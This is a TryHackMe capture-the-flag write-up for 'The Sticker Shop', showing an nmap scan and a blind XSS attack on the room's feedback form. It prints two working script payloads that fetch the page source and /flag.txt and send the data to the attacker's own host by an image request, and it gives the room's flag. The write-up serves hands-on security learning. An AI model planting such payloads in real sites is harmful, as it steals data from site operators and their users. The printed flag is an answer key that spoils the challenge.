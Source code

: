 ```yaml
---
title: The Sticker Shop
categories: [TryHackMe]
tags: [XSS,THM]
image: /assets/thumbnails/thestickerhshop.jpg
---
```


Easy room created by [toxicat0r](https://tryhackme.com/r/p/toxicat0r). This rooms focus on the XSS vulnerabilitty. So if you guys want to try it, you can access the room [here](https://tryhackme.com/r/room/thestickershop).

## Scanning

> Start your machine to obtain the `Machine IP address` and Fire up your Nmap tools like always. To scan for the open port and services of the `IP Address`. Using the command `nmap -sC -sV [IP Address]`, and wait for a couple of minute until the scanning finish.

![image](https://github.com/user-attachments/assets/e6ed8ccb-0fdc-4ac6-83b9-86fe36e52c18)

> From our scanning result, Here we got 2 open port which is `22` for `SSH` services and `8080` for `HTTP`. So there is a website serives assigned to the `IP Address`. Let visit the site by using this url `http://IP MACHINE:8080`.

![image](https://github.com/user-attachments/assets/440aea69-215d-4a39-937f-406c8fede2b5)

## Attack & Get The Flag

> There 2 pages in the website which is `Home` and `Feeback`. Nothing was intresting in the `Home` page. Let see the `Feebackk` page.

![image](https://github.com/user-attachments/assets/4c872f7a-3b13-40fc-bad0-baa4fa735ff7)

> This is the juicy part. As we all know the `Feedback` and `Comment` pages are quite famous with `XSS` Vulnerability. So here let test if the `XSS` is reflected by the machine or not.

### Setup And Payload. 

> To test if the machine reflected to our `XSS` or not. First, i setup local server using command `Python -m http.server 80`. So that when using the `XSS`, i will be able to see the response on our local server. 

![image](https://github.com/user-attachments/assets/f51a28b1-ef2c-4fff-9635-6fcde95a825b)

> For the test payload (Shout out to CHATGPT for the assist). For test payload, i use `GET` method to fetch the source code for the `Home` page. Here is the payload :

```
<script>
  fetch('/')
    .then(response => response.text())
    .then(data => {
      const encoded = btoa(data); // Base64 encode the response text
      new Image().src = 'http://10.17.0.175/' + encoded;
    })
    .catch(err => console.error(err));
</script>
```

> Basically the payload do is `fetch('/'): Requests the source code of the current page (index page)`, `btoa(data): Converts the page source to a Base64-encoded string` .
`new Image().src: Sends the encoded source as a GET parameter (source) to your server`  

![image](https://github.com/user-attachments/assets/da47666c-25ad-4652-bedb-7b2a29e16cb1)

> The machine respone was send to our local python server and we got endoded `Base64` strings from the response which if we decode it, we obtained the source code of the index page, just like our payload should do. This remark that our payload is working and the machine is facing `XSS` vulnerability. 

### Get The Flag. 

> In the rooms description, author mentioned that the flag was located at `/flag.txt`. So using same method as our test payload, to reflect the responses from the machine to our local python server. but Since we know the location of the flag. We just need to do a little bit changes from our test payload and our new payload is ready to go. Here is the new payload :

```
<script>
  fetch('/flag.txt')
    .then(response => response.text())
    .then(data => {
      new Image().src = 'http://10.17.0.175/?flag=' + encodeURIComponent(data);
    });
</script>
```
> Retrun back to our local python server, and as you can see. The machine reflected the text in the `\flag.txt` to our local server and we managed to get the flag.

![image](https://github.com/user-attachments/assets/52624075-942a-44dc-a7b3-5cc70b3e4cda)


## Flag 

> THM{B83789a69074f636f64a38879cfcabe8b62305ee6}



